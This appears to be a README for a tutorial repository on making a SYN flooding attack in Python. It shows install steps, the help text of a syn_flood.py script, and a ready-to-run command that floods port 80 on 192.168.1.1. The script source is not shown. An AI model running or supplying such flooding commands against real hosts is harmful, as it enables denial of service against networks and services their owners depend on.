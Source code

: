 # [How to Make a SYN Flooding Attack in Python](https://www.thepythoncode.com/article/syn-flooding-attack-using-scapy-in-python)
To run this:
- `pip3 install -r requirements.txt`
- Run help:
    ```
    python syn_flood.py --help
    ```
    **Output:**
    ```
    usage: syn_flood.py [-h] [-p PORT] target_ip

    Simple SYN Flood Script

    positional arguments:
    target_ip             Target IP address (e.g router's IP)

    optional arguments:
    -h, --help            show this help message and exit
    -p PORT, --port PORT  Destination port (the port of the target's machine
                            service, e.g 80 for HTTP, 22 for SSH and so on).
    ```
- To run this against your router's web interface that has the IP address of 192.168.1.1:
    ```
    python syn_flood.py -p 80 192.168.1.1
    ```